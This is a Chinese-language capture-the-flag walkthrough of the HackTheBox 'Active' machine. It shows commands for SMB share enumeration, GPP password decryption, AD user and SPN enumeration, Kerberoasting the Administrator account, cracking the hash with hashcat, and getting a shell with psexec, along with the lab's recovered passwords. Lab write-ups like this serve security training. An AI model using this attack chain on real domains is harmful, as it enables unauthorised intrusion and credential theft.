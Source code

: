 ```yaml
---
description: Easy / SMB共享 / 枚举
---
```


# ✔️ Active

## 建立立足点

### 信息收集&枚举

* 使用Nmap对目标系统进行开放端口扫描：

<figure><img src="../../.gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure>

* 顺便把IP地址和域名写进/etc/hosts中，以便后续使用：

<figure><img src="../../.gitbook/assets/2 (5).png" alt=""><figcaption></figcaption></figure>

* 使用Nmap查找一下相关的SMB漏洞：

```bash
# 过滤出本机上关于smb漏洞扫描的脚本：
local -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
```

<figure><img src="../../.gitbook/assets/3 (5).png" alt=""><figcaption></figcaption></figure>

```bash
nmap --script safe -p 445 10.129.85.245
```

<figure><img src="../../.gitbook/assets/4 (6).png" alt=""><figcaption></figcaption></figure>

没有什么收获：

<figure><img src="../../.gitbook/assets/6 (6).png" alt=""><figcaption></figcaption></figure>

查找到当前目标系统中SMB服务是2.0版本，使用smb-enum-services脚本也无收获，该脚本貌似是作用于SMB 1.0版本的：

<figure><img src="../../.gitbook/assets/7 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录SMB服务，并枚举其所有共享目录：

```bash
smbclient -L 10.129.85.245
```

<figure><img src="../../.gitbook/assets/9 (6).png" alt=""><figcaption></figcaption></figure>

分别用enum4linux和smbmap这两种工具对这些共享目录进行枚举以及确认当前权限：

```bash
# enum4linux：
enum4linux 10.129.85.245
# smbmap:
smbmap -H 10.129.85.245
```

<figure><img src="../../.gitbook/assets/10 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
smbmap比enum4linux好用
{% endhint %}

* 以上两个工具的输出结果显示，当前这个匿名登录账户对\`/Replication\`目录是可读的，因此可以把该目录下的所有文件内容递归下载到我的Kali本机中，再逐个查看其内容是否有可以利用的信息：

```bash
smbclient //10.129.85.245/Replication
# 连接上之后，依次执行：
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/5 (6).png" alt=""><figcaption></figcaption></figure>

* 在查看各个文件夹内容后，发现路径/{31B2F346-616D-11D2-945F-06C64FB984F9}/MACHTNE/Preferences/Groups目录下有个\`Groups.xml\`文件，这个文件中会用用户名和加密后的密码信息：

<figure><img src="../../.gitbook/assets/14 (4).png" alt=""><figcaption></figcaption></figure>

* 用gpp-decrypt解码后获得明文密码：

<figure><img src="../../.gitbook/assets/15 (5).png" alt=""><figcaption></figcaption></figure>

* 此时已获得有效凭证<mark style="color:red;">**svg\_tgs:GPPstillStandingStrong2k18**</mark>

### GET SHELL

* 利用已获得的有效凭证再次枚举目标系统的SMB服务，看看是否获得了更多的信息和权限：

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.138.113
```

<figure><img src="../../.gitbook/assets/16 (4).png" alt=""><figcaption></figcaption></figure>

* 果然发现多了几个共享目录可读。但与此同时，也用Impacket的GetADUsers.py脚本枚举除了目标系统上所有的用户：

```bash
python3 GetADUsers.py -all active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.138.113
```

<figure><img src="../../.gitbook/assets/17 (4).png" alt=""><figcaption></figcaption></figure>

* 貌似/Users目录有东西，用凭证登录后逐一查看发现flag：

```bash
smbclient //10.129.138.113/Users -U SVC_TGS%GPPstillStandingStrong2k18
ls
```

<figure><img src="../../.gitbook/assets/18 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息收集&枚举

* 使用ldapsearch查询活动账户在域控中的属性，过滤出特定目标账户：

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname |grep sAMAccountName
```

<figure><img src="../../.gitbook/assets/22 (2).png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
serviceprincipalname | grep -B 1 servicePrincipalName
```

<figure><img src="../../.gitbook/assets/23 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 使用GetUserSPNs.py脚本，提取Administrator的hash:

```bash
python3 GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.138.113 -request
```

<figure><img src="../../.gitbook/assets/25 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将输出的哈希值存为hash.txt文件，然后用hashcat对它进行爆破以获取Administrator的明文密码：

```bash
hashcat -m 13100 hash.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/26 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 此时已获得了管理员的明文密码<mark style="color:red;">**Ticketmaster1968，**</mark>配合psexec.py脚本获得管理员shell，成功root：

```bash
python3 psexec.py active.htb/Administrator@10.129.138.113 
```

<figure><img src="../../.gitbook/assets/29 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得flag：

<figure><img src="../../.gitbook/assets/30 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



{% hint style="info" %}
本例的考察重点是对目标SMB共享资源的枚举，属于简单级别的机器。

(本例机器重置过，所以IP地址中途有所改变，但不影响利用过程和结果)
{% endhint %}

